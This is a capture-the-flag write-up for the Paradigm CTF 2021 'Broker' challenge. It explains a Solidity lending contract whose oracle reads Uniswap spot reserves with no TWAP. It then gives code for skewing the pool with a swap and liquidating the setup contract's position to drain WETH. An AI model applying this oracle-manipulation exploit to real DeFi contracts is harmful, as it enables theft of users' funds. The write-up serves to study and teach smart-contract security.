 # Broker Challenge
| Paradigm CTF 2021 Challenge - Oracle Manipulation Hack

## Description & Setup
| This broker has pretty good rates

| ITEM                                | Description                    |
|-------------------------------------|--------------------------------|
| Contract Address <- Our hack target | Paradigm-CTF-2021-Broker       |
| Setup Contract                      | Paradigm-CTF-2021-Broker-Setup |
| Solution Contract                   | Solution                       |

The majority of the setup is in the `Setup.sol` smart contract, it contains:
- AMT Token Contract: been used as the treasury token for lending protocol
- IUniswapV2Factory Interface: interface for Uniswap V2 create pair & Setup
- Setup Contract: create and bootstrap the token/weth pool for borrowing against WETH

Below is the setup logic: 
- 1st create a pair for AMT & WETH
- 2nd transfer 25 WETH & 500,000 AMT token to the pair
- 3rd deposit 25 eth to borrow 250,000 AMT token from the lending protocol

```solidity
  // create and bootstrap the token/weth pool for borrowing against WETH
    constructor() payable {
        require(msg.value == 50 ether);
        weth.deposit{value: msg.value}();

        token = new Token();
        pair = IUniswapV2Pair(factory.createPair(address(weth), address(token)));
        broker = new Broker(pair, ERC20Like(address(token)));
        token.transfer(address(broker), 500_000 * DECIMALS);

        // 1:25
        weth.transfer(address(pair), 25 ether);
        token.transfer(address(pair), 500_000 * DECIMALS);
        pair.mint(address(this));

        weth.approve(address(broker), type(uint256).max);
        broker.deposit(25 ether);
        broker.borrow(250_000 * DECIMALS);

        totalBefore = weth.balanceOf(address(broker)) + token.balanceOf(address(broker)) / broker.rate();
    }
```

Essentially, `broker.sol` is a simplified version of a ZERO-Interest Rate lending protocol. There are a lot of attack surfaces as a lending protoocl:
- Collaterialized assets has reentrancy risks
- Protocol might have reentrancy risks as well
- Protocol implementation issue
- Oracle attacks / manipulation & more

## Solution

The way to attack this lending protocol is relatively easy to figure out.
The key of the manipulation is within these lines of the code:
```solidity
    function rate() public view returns (uint256) {
        (uint112 _reserve0, uint112 _reserve1,) = pair.getReserves();
        uint256 _rate = uint256(_reserve0 / _reserve1);
        return _rate;
    }
```
The oracle implementation is without the TWAP just brutally using the spot price. 
Thus, we can use flashloan to manipulate the spot price and perform the attack, or just simply use the amount of tokens we had to perform the attack.
In the liquidate function:
```solidity
  // safeDebt calculation
    function safeDebt(address user) public view returns (uint256) {
          return deposited[user] * rate() * 2 / 3;
    }

 // repay a user's loan and get back their collateral. no discounts.
    function liquidate(address user, uint256 amount) public returns (uint256) {
        require(safeDebt(user) <= debt[user], "err: overcollateralized");
        debt[user] -= amount;
        token.transferFrom(msg.sender, address(this), amount);
        uint256 collateralValueRepaid = amount / rate();
        weth.transfer(msg.sender, collateralValueRepaid);
        return collateralValueRepaid;
    }
```
If user's debt is bigger than their safeDebt which means user borrowed AMT token price goes rocket.
Anyone can call liquidation method to liquidate user's fund.

Implementation:
Step 1: Trade 13 ETH for AMT token -> make the token price go roket
```solidity
 // trade 13 eth for some tokens
    address[] memory path = new address[](2);
    path[0] = address(weth);
    path[1] = address(token);
    uint256[] memory tokensReceived = router.swapExactTokensForTokens(
        ethToSend,
        1,
        path,
        address(this),
        type(uint256).max
    );
```

Step 2: we can liquidate the guy with the tokens received
```solidity
    uint256 receivedCollateral = broker.liquidate(address(setup), tokenReceived);
    require(weth.balanceOf(address(this)) > balanceBefore);
```
Although the given solution manipulation is not profitable, but we can for sure manipulate the oracle.
I found another method online, which has similar idea:

Step 1: skew the uniswap ratio by buying lots of tokens
```solidity
    weth.transfer(address(pair), weth.balanceOf(address(this)));
```
Step 2: since win condition is when there are less than 5 eth in the pool, thus we only need to liquidate 21 eth.
```solidity
    uint256 liqAmount = 21 ether * rate;
    broker.liquidate(address(setup), liqAmount);
```

